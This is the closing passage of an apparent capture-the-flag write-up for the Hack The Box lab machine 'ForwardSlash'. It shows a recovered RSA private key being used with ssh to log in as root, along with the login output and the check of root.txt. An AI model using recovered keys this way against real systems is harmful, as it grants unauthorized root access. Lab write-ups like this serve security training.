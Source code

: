 ```
-----END RSA PRIVATE KEY-----
```

After saving it locally, lets try to use it to login as root:
```
$ ssh -i key root@forwardslash.htb
The authenticity of host 'forwardslash.htb (10.10.10.183)' can't be established.
ECDSA key fingerprint is SHA256:7DrtoyB3GmTDLmPm01m7dHeoaPjA7+ixb3GDFhGn0HM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forwardslash.htb,10.10.10.183' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  4 02:32:00 UTC 2020

  System load:  0.0                Processes:            195
  Usage of /:   30.8% of 19.56GB   Users logged in:      1
  Memory usage: 19%                IP address for ens33: 10.10.10.183
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Mar 24 12:11:46 2020 from 10.10.14.3
root@forwardslash:~#
```

And we're in! Lets see if we can read the flag:
```
root@forwardslash:~# wc -c root.txt
33 root.txt
```

That's all! Thanks for reading!
